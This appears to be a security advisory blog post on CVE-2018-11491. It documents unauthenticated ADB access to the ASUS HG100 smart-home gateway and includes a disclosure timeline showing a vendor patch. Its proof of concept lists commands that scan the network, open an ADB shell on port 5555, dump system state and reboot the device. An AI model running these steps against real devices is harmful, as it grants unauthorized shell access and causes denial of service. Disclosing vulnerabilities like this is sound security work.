 ```yaml
---
layout: post
title:  "CVE-2018-11491"
author: Mars Cheng
tags: CVE
---
```


## <center>** ASUS HG100 exists unauthenticated access vulnerability **</center>
#### Description:ASUS HG100 devices with firmware before 1.05.12 allow unauthenticated access, leading to remote command execution.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>




### <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Confirm IP

```
nmap --scanflags SYN 192.168.0.0/24
```
* Port 5555 open
<div style="text-align: center">
<img src="https://i.imgur.com/c4c7kwM.png"/>
</div>

### 2.Connect port 5555 with ADB
```
adb connect 192.168.0.100
```

<div style="text-align: center">
<img src="https://i.imgur.com/JM7pymJ.png"/>
</div>


```
adb shell
```
<div style="text-align: center">
<img src="https://i.imgur.com/8ur8l5p.png"/>
</div>


```
id
```
<div style="text-align: center">
<img src="https://i.imgur.com/RoryPJv.png"/>
</div>

```
dumpstate
```
* Show system process detail

<div style="text-align: center">
<img src="https://i.imgur.com/8QscCma.png"/>
</div>

### 3.Reboot device and Denial of Service 

```
reboot
```
<div style="text-align: center">
<img src="https://i.imgur.com/qnuaiFg.png"/>
</div>

* Check device status

<div style="text-align: center">
<img src="https://i.imgur.com/za4z9be.png"/>
</div>

### Timeline
*  February 6, 2018 Reported to ASUS Security
*  July 3, 2018 Patch released 


### Reference
1. https://www.asus.com/tw/News/qnEosWKPVDpmOeqL
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11491
